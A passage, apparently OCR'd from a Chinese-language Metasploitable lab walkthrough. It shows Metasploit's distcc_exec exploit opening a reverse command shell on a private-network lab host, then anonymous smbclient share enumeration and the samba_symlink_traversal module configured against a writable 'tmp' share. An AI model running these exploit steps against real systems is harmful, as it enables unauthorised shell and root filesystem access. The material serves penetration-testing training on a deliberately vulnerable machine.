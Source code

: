 msf exploit(distcc_exec) > **exploit** 

[*] Started reverse double handler

[*] Accepted the first client connection…

[*] Accepted the second client connection…

[*] Command: echo uk3UdiwLUq0LX3Bi;

[*] Writing to socket A

[*] Writing to socket B

[*] Reading from sockets…

[*] Reading from socket B

[*] B: "uk3UdiwLUq0LX3Bi\r\n"

[*] Matching…

[*] A is input…

[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:38897) at 2012-05-31 22:06:03 -0700

**id**

uid=1(daemon) gid=1(daemon) groups=1(daemon)

samba，当配置为文件权限可写同时"wide links" 被允许（默认就是允许），同样可以被作为后门而仅仅是文件共享。下面例子里，metasploit提供一个攻击模块，允许接入一个root文件系统通过一个匿名接入和可写入的共享设置。

root@ubuntu:~# **smbclient -L //192.168.99.131**

Anonymous login successful

Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]

 

​    Sharename    Type   Comment

​    ———    —-   ——-

​    print$     Disk   Printer Drivers

​    **tmp       Disk   oh noes!**

​    opt       Disk   

​    IPC$      IPC    IPC Service (metasploitable server (Samba 3.0.20-Debian))

​    ADMIN$     IPC    IPC Service (metasploitable server (Samba 3.0.20-Debian))

root@ubuntu:~# **msfconsole**

msf > **use auxiliary/admin/smb/samba_symlink_traversal** 

msf auxiliary(samba_symlink_traversal) > **set RHOST 192.168.99.131**

msf auxiliary(samba_symlink_traversal) > **set SMBSHARE tmp**

msf auxiliary(samba_symlink_traversal) > **exploit** 

